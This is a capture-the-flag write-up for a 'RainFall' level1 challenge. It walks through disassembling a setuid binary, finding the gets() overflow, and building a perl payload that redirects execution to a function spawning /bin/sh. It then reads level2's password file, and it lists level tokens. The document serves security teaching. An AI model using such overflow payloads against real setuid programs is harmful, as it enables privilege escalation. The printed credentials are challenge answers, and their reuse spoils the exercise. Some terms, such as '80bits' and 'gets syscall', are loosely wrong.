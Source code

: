 # Level1 - Buffer overflow

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level1 | `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a` |
| level2 | `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77` |

## Steps to resolve on VM

1. Connect to `level1` user

```shell
ssh level1@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Notice there is a binary with level2 setuid.

2. Debug level1

Execute level1

```shell
./level1
> (stdin)
```

There is only a prompt. Lets disassemble the code.

```shell
gdb level1
(gdb) disas main

> 0x08048480 <+0>:     push   %ebp
  0x08048481 <+1>:     mov    %esp,%ebp
  0x08048483 <+3>:     and    $0xfffffff0,%esp
  0x08048486 <+6>:     sub    $0x50,%esp                ; 0x50 = 80
  0x08048489 <+9>:     lea    0x10(%esp),%eax
  0x0804848d <+13>:    mov    %eax,(%esp)
  0x08048490 <+16>:    call   0x8048340 <gets@plt>      ; call gets
  0x08048495 <+21>:    leave
  0x08048496 <+22>:    ret
```

Indeed, there is a `gets` syscall only.

```shell
(gdb) info functions

> (...)
  0x08048420  frame_dummy
  0x08048444  run
  0x08048480  main
  (...)
```

There is others functions. Lets see the function `run`

```shell
(gdb) disas run

> 0x08048444 <+0>:	push   %ebp
  0x08048445 <+1>:	mov    %esp,%ebp
  0x08048447 <+3>:	sub    $0x18,%esp
  0x0804844a <+6>:	mov    0x80497c0,%eax               ; 0x80497c0: stdout
  0x0804844f <+11>:	mov    %eax,%edx
  0x08048451 <+13>:	mov    $0x8048570,%eax              ; 0x8048570: "Good... Wait what?\n"
  0x08048456 <+18>:	mov    %edx,0xc(%esp)
  0x0804845a <+22>:	movl   $0x13,0x8(%esp)              ; 0x13 = 19
  0x08048462 <+30>:	movl   $0x1,0x4(%esp)               ; 0x1  = 1
  0x0804846a <+38>:	mov    %eax,(%esp)
  0x0804846d <+41>:	call   0x8048350 <fwrite@plt>       ; call fwrite("Good... Wait what?\n", 1, 19, stdout)
  0x08048472 <+46>:	movl   $0x8048584,(%esp)            ; 0x8048584: "/bin/sh"
  0x08048479 <+53>:	call   0x8048360 <system@plt>       ; call system("/bin/sh")
  0x0804847e <+58>:	leave
  0x0804847f <+59>:	ret
```

The function `run` contains a syscall `system` that executes `"/bin/sh"` and creates a subshell. As the binary `level1` is executed with level2 setuid, this function is interesting.

Unfortunately, the function `run` is not called in the main. We have to find a way to execute it.

3. Buffer overflow

We will use the buffer overflow attack.

We will take advantage of the buffer of `gets` function to execute the funtion `run`.

But first we need to know what is the buffer size. We noticed that 80bits (0x50) have been allocated. After many tries, we noticed

```shell
./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   # 75 chars

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  # 76 chars
> Illegal instruction (core dumped)

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # 77 chars
> Segmentation fault (core dumped)
```

We got a error for "illegal instruction" with 76 chars, and a segfault with 77 chars. We can deduct the buffer size wich is 76 with the ending '\0'.
The 4 bits remaining are reserved for EIP register that contains the next instruction.

Now we know the buffer size, we have to append to address of our function.

The address of `run` is: 0x08048444

```shell
(gdb) show endian

> The target endianness is set automatically (currently little endian)
```

It means we have to reverse the address. `0x08048444 => 0x44840408`

Now we have everything we need, we can create the overflow.

```shell
echo `perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null` | ./level1

> Good... Wait what?
> Segmentation fault (core dumped)
```

A string appears here. It means the overflow works and the function `run` has been executed.
We have to keep the stdin open.

```shell
export OVERFLOW=`perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null`
(echo $OVERFLOW && cat) | ./level1

> Good... Wait what?
> (stdin) cat /home/user/level2/.pass
>> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Sources

### Buffer overflow

- [How to write a buffer overflow exploit](https://jvns.ca/blog/2013/10/28/day-17-buffer-overflows/)
- [Exploit a basic buffer overflow](https://myexperiments.io/exploit-basic-buffer-overflow.html)

### ASM explications

- [Stack buffer size is different between C and ASM](https://reverseengineering.stackexchange.com/questions/17075/stack-buffer-size-is-different-between-c-and-asm)

### Shell

- [Man gets](https://linux.die.net/man/3/gets)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
- [Piping data to a process's stdin without causing EOF afterward](https://unix.stackexchange.com/questions/103885/piping-data-to-a-processs-stdin-without-causing-eof-afterward)
